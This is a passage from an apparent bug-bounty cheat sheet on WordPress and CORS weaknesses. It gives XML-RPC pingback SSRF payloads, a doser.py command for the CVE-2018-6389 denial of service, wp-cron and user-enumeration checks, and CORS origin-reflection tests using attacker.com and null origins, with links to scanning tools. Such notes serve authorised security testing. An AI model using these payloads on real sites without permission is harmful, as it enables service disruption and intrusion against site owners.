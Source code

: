     ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```

      * pingback.ping SSRF (internal PORT scan only)

    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
      * tools
      xmlrpc-scan https://github.com/nullfil3/xmlrpc-scan

    * CVE-2018-6389 (wp <= 4.9.3)
      * detection
        * https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9
      * exploit
        * use DDoS (Doser https://github.com/quitten/doser.py)

        ```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
        ```

    * WP Cornjob DOS
      * detection
        * view site.com/wp-cron.php, You will see a Blank page with 200 HTTP status code
      * exploit
        * same tool as above (Doser)

        ```
        You will see a Blank page with 200 HTTP status code
        ```
        ***ref: https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30***
    * WP User Enumeration
      * site.com/wp-json/wp/v2/users/
      * mostly not acceptable, can be used to extend the impact tho

## CORS
1. CORS (***ref: https://www.packetlabs.net/cross-origin-resource-sharing-cors/***)
  * misconfigured CORS
    * hunting method 1 (single target)
      * crawl the target website n search Access-Control using burp
      * Try to add Origin Header i.e, Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
      * If origin is reflected in response means the target is vuln to CORS
    * hunting method 2 (multiple means including subdomains)
      * find alive subdomains (i.e, subfinder -d domain.com -o target.txt; grep alive: cat target.txt | httpx | tee -a alive.txt), send each subdomain into burp
      * same as above method
    * automated tools
      * https://github.com/chenjj/CORScanner
      * https://github.com/lc/theftfuzzer
      * https://github.com/s0md3v/Corsy
      * https://github.com/Shivangx01b/CorsMe
2. CORS bypass
